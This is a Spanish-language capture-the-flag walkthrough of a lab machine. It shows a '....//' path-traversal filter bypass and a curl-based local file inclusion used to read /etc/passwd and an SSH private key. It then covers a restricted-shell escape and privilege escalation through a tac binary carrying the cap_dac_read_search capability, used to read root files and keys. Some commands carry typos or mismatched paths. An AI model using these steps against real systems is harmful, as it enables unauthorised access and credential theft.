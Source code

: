 ## Summary

- IP -> 10.10.10.87
- Ports -> TCP (22, 80), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> Open SSH 7.5
    - 80 -> http nginx 1.12.2


## Launchpad

-   **Launchpad**: [https://launchpad.net/ubuntu](https://launchpad.net/ubuntu)

## Recon
- Comando -> **whatweb http://< URL>**  Nos dara una breve descripcion del gestor de contenidos del puerto 80

En la pagina, en list2 podemos colocar < h1>Hola< /h1> y nos lo interpreta

Abrimos BurpSuite y recargamos la pagina para poder ver algo 
Mandamos el codigo al Repeater y miramos lo siguiente cuando lo enviamos
	.
	..
	list1
	list2
	
Quiere decir que hay un directorio actual y un anterior de trabajo, ademas de los list que nos salen en la pagina web.

Podemos hacer un **Directory Path Transversal**
**../../../** -> Pero nos damos cuenta que al momento de colocar eso no nos hace nada, por lo que podrian estar haciendo sanitizacion 
Ahora lo colocamos doble resultando asi **....//....//** y asi cuando aplique sanitizacion se quedara de esta manera **../../**

Tenemosun **Directory Listing** 
- **....//** Podemos ver las carpetas atras y podriamos llegar a la raiz, a nivel de Directorios

Ahora con BurpSuite nos ponemos a analizar la parte donde esta el file1
Ahora tenemos un **Local File Inclusion por POST** ya que podemos poner muchos **....//....//** para llegar a la raiz y poder ver el siguiente archivo, a nivel de Archivos
- **....//....//....//....//....//....//etc/passwd**

En este caso para ver mejor el contenido de arriba por Burpsuite, aplicamos el siguiente comando
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd'** Miramos la resuesta por POST de la pagina web, y a nivel de (d=data) le pasamos eso 
	- fileRead.php -> lo buscamos en el BurpSuite en la cabecera de POST
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd' | jq '.{"file"}' -r** Como es Json lo cambiamos a su formato (r=raw) y ya lo podemos ver mas bonito
	- Rutas que podemos colocar en el file=**./.list/....//....//....//....//home**
Podemos encontrar el .monitor que cuando lo miramos en nuestra consola es un RSA Private Key 
	- Rutas que podemos colocar en el file=**./.list/....//....//....//....//home/nobody/.ssh/.monitor**

Metemos el contenido a un archivo llamado is_rsa en nuestar consola, para despues conectarnos por SSH
- Comando -> **curl -s -X POST http://< IP>/fielRead.php -d 'file=./.list/....//....//....//....//etc/passwd' | jq '.{"file"}' -r** > ../content/**id_rsa**
- Comando -> **chmod 600 id_rsa** Le cambiamos los permisos a un archivo, las claves rsa deben de poseer el privilegio 600

## User
Por lo que nos conectamos por SSH 
- Comando -> **ssh -i id_rsa < user>@< IP>** Nos conectamos por ssh teniendo un id_rsa con privilegio 600
Una vez conectado buscamos el archivo user.txt

Agregamos nuestro PATH a la maquina victima
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find / -perm -4000 -user root 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios pero en este caso del usuario root
- Comando -> **cat /etc/crontab** Tareas CRON, que son tareas que se ejecutan a intervalos regulares de tiempos en el sistema 
- Comando -> **ps -e command** Para ver los procesos, comandos que se estan ejecutando y asi poder ganar privilegios

**cd .ssh** -> Nos movemos al dir ssh y le hacemos un **ls -la**
**cat authorized_keys ; echo** -> Podemos ver el contenido del archivo, por lo que vemos que hay un usuario llamado **monitor@waldo** (echo=para hacer en este caso, salto de linea)

Por lo que tratamos de conectarnos de forma local:
**ssh monitor@waldo**

Como no se pudo volvemos a conectarnos como lo hicimos anterirmente con la clave privada que la contiene (.monitor):
**ssh -i .monitor monitor@localhost**
Ingresamos a una restricted bash 

- Comando -> **ssh -i .monitor monitor@localhost bash** Podemos ejecuta un comando, y no nos cargara la restricted bash, y en este caso podemos hacer que nos de una bash. 
Le damos tratamiento:
	- Tratamiento de la consola Linux cuando entras a una maquina victima
			 - **Script /dev/null -c bash** Nos sales que esto no se puede hacer, por lo que hacemos lo siguiente
			 - **Ctrl + z**
			 - **stty raw -echo; fg**
			 -  **reset xterm**
			- **export TERM=xterm** Para poder hacer Ctrl +c y Ctrl + l (l=ele)
			- **export SHELL=/bin/bash**Hacemos que shell ahora valga bash

Aveces no podemos colocar reset por lo mismo que estabamos en una restricted bash, por lo que podemos agregar nuestro PATH y se solcuiona el problema

Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
**stty size** Con este comando podemos ver las dimensiones de la consola nano de 24 80 por lo que debemos de modificar ese valor a este
**stty rows 51 columns 189** Modificamos las dimenesiones de la consola nano

- Comando -> **hostname -I** Miramos nuestra interface (I=i mayuscula)
- Comando -> **ls -l** Miramos lo que hay en el directorio 
- Comando -> **id** Identificador de los usuarios (UID), root=UID=0
- Comando -> **sudo -l** Ver que permisos tenemos en el sudoers (l=ele)
- Comando -> **find .** Para ver archivos y sus extensiones y asi ver si podemos ejecutar alguno
	Por lo que encontramos ./monitor/app-dev/logMonitor 
- Comando -> **file ./monitor/app-dev/logMonitor** Nos muestra que tipo de archivo es por los magic numbers y es un ejecutable
- Comando -> **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid, para aprovecharnos de un binario y escalar privilegios,
- Comando -> **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities

* Comando -> **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva

## Root

El tac es un cat pero te muestra el contenido al reves
		***/usr/bin/tac* = cap_dac_read_search+ei** Con esta capabilitie podemos utilizar ese comando para poder leer cualquier archivo privilegiado del sistema
		- Comando -> **tac /root/root.txt** Podemos colocar un archivo de alguna ruta como /etc/shadow, etc... o un file directamente y lo hara como root 

Tambien pordemos conectarnos al usuario root obteniendo su clave privada de la siguente manera:
- Comando -> **tac /root/.ssh/id_rsa | tac** Podemos ver la clave privada del usuario root y podernos conectar por ssh con esa id_rsa, pero en este caso no se puede porque el root no puede hacer login 

Por lo que leemos la flag root.txt 